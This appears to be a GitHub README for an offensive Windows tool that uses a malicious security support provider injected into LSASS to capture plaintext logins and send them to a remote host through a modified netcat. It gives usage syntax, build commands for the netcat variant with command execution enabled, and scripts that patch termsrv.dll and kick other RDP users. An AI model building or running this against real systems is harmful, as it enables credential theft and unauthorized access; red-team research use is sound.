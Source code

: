 # ListenYourHeart 🔍

**An offensive security tool for real-time interception and exfiltrаtion of Windows credentials to a remote host.**
---

## ⚠️ Disclaimer  
This tool is intended for **authorized security testing and research purposes only**. Unauthorized use is illegal. Ensure you have explicit permission before deploying it in any environment.

---
## 📖 Overview  
ListenYourHeart is designed to  intercept Windows authentication credentials and exfiltrate them to a remote host in real-time. It operates as a modular framework, combining credential harvesting, data transmission, and offensive automation.

---

## 🧩 Core Components

### 1. **mimilib.dll** (Security Support Provider)
- **Purpose**: Acts as a Security Support Provider (SSP) to intercept authentication credentials (plaintext passwords only).
- **Mechanism**: Injects into the LSASS process and forwards captured credentials to `mefcat.exe` via a **named pipe** (`\\.\pipe\communicate`).

### 2. **mefcat.exe** (Modified Netcat)
- **Purpose**: Facilitates real-time data exfiltration.
- **Features**:
  - Communicates with `mimilib.dll` through a named pipe.
  - Uses **Windows Events** for synchronization.
  - Provides transmission to a remote host (IP/port configurable).

### 3. 🔧 **Offensive Scripts**
#### **KoH.bat** (King Of Hill)
  - **Function:** Terminates active RDP sessions except for the session matching the specified username.
#### **patchTermSrv.exe**
  - **Function**: Patches the `termsrv.dll` library to enable multiple RDP sessions on Windows.

## 🗣 Communication process
![communicationProc](https://github.com/user-attachments/assets/15415807-b76d-4e53-924c-64cb56592d22)

## Usage
```bash
LyH.exe <REMOTE_IP> <REMOTE_PORT> [--patch] [--koh <USERNAME>]
```
### Options
`--patch` 

Enables multi-RDP sessions on the host by applying a PowerShell script to modify termSrv.dll . 

`--koh <USERNAME>` 

Activates "King of the Hill" mode: terminates all active RDP sessions except the one associated with the specified <USERNAME> via a batch script.
## 🛠️ Build  
---

### Building `mimilib.dll`  

#### Requirements  
Compile with **Microsoft Visual Studio 2017**  **v141 XP toolset** 


---

### Building `ListenYourHeart` (Core Project)  

Compile with **Microsoft Visual Studio 2022**  and C++17 support


   ⚠️ The following files **must be placed in the root directory** of your Visual Studio solution:
   - `mefcat.exe` (compiled binary)
   - `mimilib.dll` (compiled library)  
   - `KoH.bat` (session-kick script)
   - `patchTermSrv.exe` (RDP patcher)

---

### Building `mefcat.exe`  

#### Requirements  
- **MinGW-w64** compiler

#### Command  
```bash
x86_64-w64-mingw32-gcc.exe -DWIN32 -D_CONSOLE -DTELNET -DGAPING_SECURITY_HOLE \
  getopt.c doexec.c mefcat.c \
  -s -lkernel32 -luser32 -lwsock32 -lwinmm \
  -o mefcat.exe
```

## Example



https://github.com/user-attachments/assets/d7ac37e5-7875-43cb-bab5-b8c3f5e3eab1




